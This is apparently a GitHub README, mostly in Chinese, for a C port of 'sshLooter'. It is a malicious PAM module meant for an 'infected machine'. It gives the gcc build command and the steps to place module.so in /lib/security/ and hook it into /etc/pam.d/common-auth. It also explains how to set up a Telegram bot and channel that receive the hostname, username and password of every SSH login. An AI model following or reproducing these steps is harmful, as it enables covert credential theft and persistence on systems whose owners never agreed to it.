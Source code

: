 # SSHLooter C version
It's the C version of [sshLooter](https://github.com/mthbernardes/sshLooter), which was written in python and have a lot of dependencies to be installed on the infected machine.
Now with this C version, you compile it on your machine and send it to the infected machine without installing any dependencies.

# 依赖
* gcc
* libcurl4-openssl-dev
* libpam0g-dev

# 配置
编辑 `looter.c` 主要修改2处：`Your_Bot_Token` 以及 `Your_Channel_Name`.

# 编译
```
gcc -Werror -Wall -fPIC -shared -Xlinker -x -o module.so looter.c -lcurl
```

# 使用
复制so到/lib/security/目录下【如果系统提示没有security这个目录，直接mkdir即可】
```
cp module.so /lib/security/
```
编辑/etc/pam.d/common-auth
```
vi /etc/pam.d/common-auth
```
在最底下新增如下两行
```
auth optional module.so
account optional module.so
```

## 如何获取Telegram Bot Token以及Channel Name？【手机版本演示】

#### 1.创建一个Telegram公共频道
1. 登录Telegram
2. 进入Chats标签页
3. 点击右上角的类似编辑的图标
4. 选择New Channel
5. 点击Create Channel
6. 后面相关信息自行填写即可
7. 完成Channel的创建

#### 2.通过BotFather创建一个Telegram BOT
1. 在搜索框搜索BotFather
2. 进入聊天界面
3. 在聊天输入框中选择/newbot
4. 接着按照提示创建bot即可
5. 看到返回“Done！Congratulations on your new bot”即表示完成bot的创建
6. 点击返回的类似t.me/aasxisobot的链接，接着点击下方的start
7. 复制第二行的token信息替换到c文件中Your_Bot_Token

##### 3.设置BOT为你频道的管理员
1. 进入第一步所创建的频道
2. 点击右上角的图标【进入频道主页】
3. 点击Administrators【进入管理员主页】
4. 点击Add Admin选择第二步创建的Bot，并且开启Add New Admins
5. 接着右上角的点击Done

结束，当有ssh登录该主机时候，Telegram频道将会收到登录信息【主机名、用户名、密码】。
🧐
